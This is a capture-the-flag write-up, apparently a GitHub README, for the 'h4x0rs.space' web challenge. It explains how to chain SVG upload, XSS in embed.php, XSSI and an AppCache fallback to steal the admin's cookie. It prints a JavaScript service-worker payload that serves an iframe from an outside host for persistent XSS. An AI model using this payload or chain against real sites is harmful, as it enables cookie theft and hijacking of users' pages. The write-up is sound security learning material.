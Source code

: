 # h4x0rs.space
## https://h4x0rs.space/blog/

![index](index.png)

```
I've made a blog platform let you write your secret. 
Nobody can know it since I enabled all of modern web security mechanism, is it cool, huh?

Get document. cookie of the admin.

h4x0rs.space

Hint: Every bug you found has a reason, and you may want to check some uncommon HTML5 features Also notice that, the admin is using real browser, since I found out Headless is not much real-world. GL

Hint 2: W3C defines everything, but sometimes browser developers decided to implement in their way, get the same browser to admin and test everything on it.

Hint 3: Can you make "500 Internal Server Error" from a post /blog.php/{id} ? Make it fall, the good will come. And btw, you can solve without any automatic tool. Connect all the dots.

Last Hint: CACHE
```

Since the `document.cookie` of admin is just the half, at the end you have to figure out where is the secret blog id.

Run [solve.py](solve.py) and report the result id to the admin.

Notice: Admin opens incognito window each time (appcache/sw/ will be clean) opening report blog ID, thus we have to setup delay iframe loading to buy time for appcache setup, and XSS him in one-shot.

## Bug
You should read this [writeup](https://gist.github.com/masatokinugawa/b55a890c4b051cc6575b010e8c835803)
### We can upload .SVG file
By uploading .SVG file, we can easily execute javascript command, but the admin won't take a look at any links other than `/blog.php/...valid id...`.

### XSS in embed.php
We can perform XSS attack on `embed.php`, but we can not trigger it from the path `/blog/blog.php/...id...`. Get used to AppCache, then you will know that we can define `FALLBACK` in appcache manifest, and trigger 500 error to leads the browser to our `.svg` evil file.

### XSSI at `pad.php?callback=....`

We can easily find out there is XSSi at `pad.php`, but `callback` parameter is filterd and can not be longer than 8 characters. 

To bypass it, create a blog post with title like:
```javascript
`; ... javascript ... //
```

In [solve.py](solve.py), I have been using as the following:
```javascript
`;onfetch=(e)=>{e.respondWith(new Response('<iframe src=//l4w.io>',{headers:{'Content-Type':'text/html'}}))}//
```

To setup ServiceWorker later then get persistent XSS (Imagine that, from now on, victim always get into your evil page, then you can silently control the pages).


## Root cause

Chrome can treat .jpg as .appcache manifest (but with restricted scope). Luckily, `embed.php` is in the scope.


## Flag
### document.cookie
OK! You got me... This is your reward: "flag{m0ar_featureS_" Wait, I wonder if you could hack my server. Okay, shall we play a game? I am going to check my secret blog post where you can find the rest of flag in next 5 seconds. If you know where I hide it, you win! Good luck. For briefly, I will open a new tab in my browser then go to my https://h4x0rs.space/blog.php/*secret_id* . You have to find where is it. 1...2...3...4..5... (Contact me @l4wio on IRC if you have a question)

### secret blog id
https://h4x0rs.space/blog/blog.php/15e8f6b2408ea136dd2e62dec47ceabc3b0ec9d1d99eebd740853ae23b6db375

## Other writeups
https://gist.github.com/masatokinugawa/b55a890c4b051cc6575b010e8c835803
